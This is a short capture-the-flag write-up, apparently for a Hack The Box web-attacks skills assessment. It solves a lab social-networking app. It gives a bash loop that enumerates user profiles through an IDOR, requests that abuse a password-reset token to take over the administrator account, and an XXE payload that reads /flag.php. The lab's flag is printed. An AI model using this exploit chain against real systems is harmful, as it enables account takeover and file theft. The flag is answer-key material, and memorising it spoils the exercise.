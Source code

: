 # Web Attacks - Skills Assessment

### Scenario

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

The login details are provided in the question below.

**Questions**

Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'.

```bash
#scan the site with burp to find openings
GET /api.php/user/74 HTTP/1.1
#found idor, now we scan
#!/bin/bash
url="http://94.237.55.163:51175/api.php/user"
output_file="output.txt"
separator="--------------------------------------------------"
# Clear the output file if it exists
> "$output_file"
for i in {1..100}; do
    echo "Fetching profile $i..."
    response=$(curl -s -o /dev/null -w "%{http_code}" "$url/$i")
    if [[ $response == 200 ]]; then
        curl -s "$url/$i" >> "$output_file"
        printf "\n%s\n" "$separator" >> "$output_file"
    fi
done
echo "Results saved in $output_file"
#we found administrator
{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

now we use idor reset password function on this site with goals to gain administrator account

```bash
#first
GET /api.php/token/52 HTTP/1.1
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
#second
GET /reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=1234 HTTP/1.1
Cookie: PHPSESSID=18rkl1lavq7lbb66qe7rbknu9t; uid=52
#now login as administrator
```

login as a.corrales

```bash
#add event page seems vulnerable to XXE attack
POST /addEvent.php HTTP/1.1
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
<name>&company;</name>
#now decode the base64 hash
<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```
